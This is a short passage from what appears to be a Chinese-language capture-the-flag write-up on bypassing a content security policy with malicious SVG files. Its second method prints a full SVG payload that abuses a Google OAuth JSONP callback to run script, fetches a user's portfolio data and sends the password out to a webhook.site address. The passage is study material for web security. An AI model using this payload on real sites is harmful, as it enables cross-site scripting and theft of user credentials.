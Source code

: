 ```
    'credentials': 'include'
  })})})"></script>
</svg>
```

效果大概是這樣

![](/images/2023/05/OnBdVTc.png)

方法2

使用location.href 傳送flag (不受CSP限制)

```
<svg  width="400"
  viewBox="0 0 400 300"
  xmlns="http://www.w3.org/2000/svg"
  xmlns:xlink="http://www.w3.org/1999/xlink">
<script href="https://accounts.google.com/o/oauth2/revoke?callback=fetch('/api/portfolio').then(function(a){return a.json()}).then(function(b){var aa = 'https://webhook.site/f25d50d9-9c87-4bce-8177-05a3360c5279/?flag='; aa= aa.concat(b.data.password);location.href=aa;})">
</script>
</svg>
```

需要修改report成那個svg
